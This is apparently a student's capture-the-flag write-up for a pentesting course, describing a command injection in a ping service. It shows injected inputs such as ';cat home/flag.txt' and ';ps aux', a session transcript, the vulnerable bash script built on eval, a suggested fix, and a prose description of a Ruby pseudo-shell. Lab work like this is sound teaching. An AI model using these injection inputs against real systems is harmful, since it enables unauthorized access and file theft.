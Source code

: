 # Writeup 2 - Pentesting

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas

## Assignment Writeup

### Part 1 (45 pts)

In summary, the steps taken were:

- Experimented with accepted input (ip address, eg, 157.230.179.99, 8.8.8.8, localhost)
- Experimented with the semicolon as it's a common command line injection technique (eg, ;ls, ;whoami)
- Tried ;ls home (led to flag)
- Tried ;ps aux (led to opt/container_startup.sh)

By starting with an IP address to see the response and then experimenting with different inputs (especially the semicolon, which delimits a command and starts a new one) and corresponding responses, it became apparent that the input was being run as part of the ping command. After some experiments the IP address was dropped and just the semicolon was typed and then the command. Some commands I tried were ls and whoami.

But it was odd at first because the connection would time out and it wasn't obvious that spaces were allowed in the input. I initially thought that only single keywords were allowed. So I tried various quote characters and double-dashes to get around to what I thought was a single-keyword limitation. Multiple commands were tried as well, separated by varying spaces, but with not much luck.

Fortunately I discovered that I could include spaces (which overcame a serious limitation) and was able to look in the /home directory and cat the flag.

`Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}`

Just by habit I tried ps aux and saw a script running. Not knowing what it was (I wanted to know what was in opt first) I did a find opt and cat'd the script, which showed how the ping script operates. It appears that this is the script behind the service, somehow the echo commands are redirected to the remote client and the read is taken from the client.

~~~~
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"
~~~~

To address this vulnerability the input can be whitelisted as a valid ip address before running the ping command. If the command is just to check if the website is responding to ping requests then the IP address can be fixed, no user input is necessary. And if the ping can be performed elsewhere then the service can be removed from the server altogether.

A brief transcript is included below:

~~~~
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ls           ;ls home

Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find home
home
home/flag.txt


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat home/flag.txt
Good! Here's your flag: CMSC389R-{p1ng_as_a_$erv1c3}


Ncat: Broken pipe.
$
at: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1 10.5  0.0  18376  2892 ?        Ss   17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         7  0.0  0.0  18376  1832 ?        S    17:11   0:00 /bin/bash /opt/container_startup.sh /bin/bash
root         9  0.0  0.0  34400  2860 ?        R    17:11   0:00 ps aux


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;find opt
opt
opt/container_startup.sh


Ncat: Broken pipe.
$ nc wattsamp.net 1337
~~~~ WATTSAMP ENERGY ~~~~
Network Administration Panel  --  Uptime Monitor
Enter IP address: ;cat opt/c*
#!/bin/bash

function quit {
        exit
}

echo "~~~~ WATTSAMP ENERGY ~~~~"

echo "Network Administration Panel  --  Uptime Monitor "
echo -n "Enter IP address: "
read -t 5 input || quit
>&2 echo "[$(date)] INPUT: $input"

cmd="ping -w 5 -c 2 $input"
output=$(eval $cmd)

echo "$output"


Ncat: Broken pipe.
~~~~

### Part 2 (55 pts)

A short ruby script was written to leverage the command-line injection vulnerability.  (The script can be run as ./shell.rb under any environment with Ruby 2.x, the she-bang line might have to be changed to point to the correct path)

The script prints a menu of options to drop into a shell or download files. The shell is implemented as a loop that reads the command the user wishes to run, and then opens a network connection, runs it via command-line injection, and then presents the output to the user. The download function is implemented similarly except that the cat command is run and the resulting output is captured to a file.

The user's current directory had to be remembered between shell sessions because each session is stateless. A class CdDir was created to hold this current directory and preserve it across each session (each command is prefixed by a cd command before the user's command).

An example command to pull is: pull /home/flag.txt flag.txt which would cat the flag file remotely and save the output into flag.txt. The pull command can be made more sophisticated by testing for the file's existence beforehand (via if [ -f file ]; then echo exists; done), and by enabling binnary downloads if binary files cannot download properly using the cat method (the uuencode command can be used).

The CdDir does accomodate the .. (double-dot) although the program could handle this better. The double-dot only works when it's by itself (multi-level double-dots aren't currently being parsed). Also the cd command by itself (to go to the home directory) isn't supported currently.

Lastly, the program has limited error checking; in particular if a network connection cannot be made then an exception occurs.
